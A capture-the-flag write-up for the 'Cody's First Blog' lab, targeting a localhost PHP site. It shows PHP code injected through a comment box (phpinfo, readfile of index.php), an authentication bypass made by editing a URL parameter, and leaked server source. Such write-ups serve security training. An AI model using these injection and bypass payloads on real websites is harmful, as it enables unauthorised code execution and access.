









# Cody's First Blog 

## FLAG0 Solution 

When clicked to view the website, we are presented with this. 



Since there is a textbox, XSS injection is used but its not working. 



Next, the textbox is injected with php since the website is written in php. 

``` php command used to test: 
<?php phpinfo()?>
```



The flag is then found. 



## FLAG1 Solution 
In the home page, it is shown that Cordy enable the comment ```include()```. 


Using ```F12```, we are able to view the source code, which disclosed the admin page. 



By navigating to the webpage, ```http://127.0.0.1/xxxxxxxxxx/?page=admin.auth.inc```, we managed to reach the admin webpage but authentication is required. 



After some research, it is found that we are able to disable the authentication by removing **auth** from the url.

```url: http://127.0.0.1/xxxxxxxxxx/?page=admin.inc```

Once the authentication is removed, the flag is retrieved. 



## FLAG2 Solution 

Since the previous flag requires us to modifiy URL parameter, the url is modified again from ```http://127.0.0.1/xxxxxxxxxx/?page=admin.inc``` to ```http://127.0.0.1/xxxxxxxxxx/?page=index```. 

However, an error message is shown. 

```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20
```

This shows that the webpage append **.php** at the end before executing the file.

By testing the XSS and phpinfo() injection on the textbox, both injections are executed properly. However, no flag is found. 



Since it is proven that php injection can be done on the website, ```index.php``` is tried again using the following comment. 

``` php command: 
<?php echo readfile("index.php")?>
```

Once it is submitted, go back to the admin page and approve the comment. 




Using **F12** to check the source code again, the flag is found. 


It print out the whole index.php file.

```php command: 
<?php
	// ^FLAG^{FLAG2}$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^{FLAG1}$FLAG$</p>'; 
?>
```